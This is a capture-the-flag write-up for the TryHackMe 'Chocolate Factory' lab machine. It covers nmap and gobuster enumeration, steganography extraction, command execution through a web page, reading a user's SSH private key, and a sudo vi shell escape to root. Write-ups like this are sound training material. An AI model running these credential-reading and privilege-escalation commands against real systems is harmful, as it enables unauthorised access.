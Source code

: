 ```yaml
---
layout: default
title: TryHackMe Chocolate Factory WriteUp
date: 2024-02-28 17:00:00 +0300
categories: [writeups]
tag: [thm,boxes]
---
```


# TryHackMe Chocolate Factory WriteUp

## **Reconnaissance and Enumeration**

#### first we scan the machine using nmap using the command: nmap -sV [IP HERE]

#### **nmap scan:**

```bash
21/tcp  open  ftp        vsftpd 3.0.3

22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))

100/tcp open  newacct?

106/tcp open  pop3pw?

109/tcp open  pop2?

110/tcp open  pop3?

111/tcp open  rpcbind?

113/tcp open  ident?

119/tcp open  nntp?

125/tcp open  locus-map?
```

#### **ftp enumeration:**
#### we login to ftp using username: "anonymous" and password: "anonymous"

#### in ftp found "gum_room.jpg"

#### used steghide to extract it: "steghide extract -sf gum_room.jpg"

#### didnt put passphrase, b64.txt extracterd.

#### found what looks like a /etc/shadow file. didnt find anything usefull.

#### **web enumeration:**

#### we open the webpage and find a login portal.

#### i used gobuster to enumrate directories.

```bash
"gobuster dir -u http://[IP HERE] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html"

gobuster: the name of the tool.
 
dir: specify we want to bruteforce directiories.

-u: specify the url

-w: specify the world list

-x: look for filees with exstinsions.
```
#### **result:**

```bash
/.php                 (Status: 403) [Size: 278]

/.html                (Status: 403) [Size: 278]

/index.html           (Status: 200) [Size: 1466]

/home.php             (Status: 200) [Size: 569]

/validate.php         (Status: 200) [Size: 93]
```
--------------------------
## **Initial Access:**

#### we navigat to home.php, you can run commands in it.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/31328d5d-7b3c-4da8-9d8b-fd4475152840)

#### we try the whoami command

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/8cf2685a-7078-42d9-9941-39b071417adb)

#### it works!
#### we search for users in the home directory using “ls /home"

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/96d7bf6b-4f29-4aef-97c2-fd7cfe113a57)

#### found user charlie, we list the files, using "ls /home/charlie"

 ![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/3c453544-953a-44d1-b065-04195b075d5a)

```bash
"cat /home/charlie/teleport"
```
#### Bingo! found ssh private key.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/82535ef1-a991-4952-89a4-b67110ab22bb)

#### i copied it into id_rsa file then give it the right permissions using `chmod +600`
#### test if we can login using ssh to the user.
#### the credintials works!

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/9522c208-f459-47b1-ae7f-8c4100d71e28)

#### in /var/www/html i found a file named key_rev_key, i try to run it:

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/0297133e-a4ca-474e-9666-f5e0b726651c)

#### changed the permissions using `chmod +x key_rev_key`

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/b2901f69-3384-42a9-bada-0c384fbf021e)

#### since its a binary, we can check the file contents using `strings key_rev_key`

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/34ce26e8-bcc5-4d97-b07f-0afe6d27704d)

#### got the key! 
`b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`

#### in /var/www/html we `cat` validate.php: 

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/2199617c-b703-453a-aaad-aba2359fb1cd)

#### run validate.php , bingo we got charlies password :)

#### login to charlies account using "su charlie".
#### user.txt:
![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/afefcc59-1a50-41a5-b35c-11c2ad7a984d)

------------
## **Privilege Escalation:**

#### The first thing you should check for is `sudo -l`,
#### result:

```bash
Matching Defaults entries for charlie on chocolate-factory:
   env_reset, mail_badpass,
   
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    
   (ALL : !root) NOPASSWD: /usr/bin/vi
```


#### in gtfobins, `vi -c ':!/bin/sh' /dev/null`

#### i ran it with sudo so if it works we could get root privileges `sudo vi -c ':!/bin/sh' /dev/null`

```bash
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null
```

#### pwned!!
-----
## **Finding the root flag:**

#### we find root.py
#### we run it , enter the key we obtained before , and it shows us the root flag.

![image(1)](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/cabbb2fe-8af8-46ec-a323-7764c1441762)

#### Happy Pwning :)
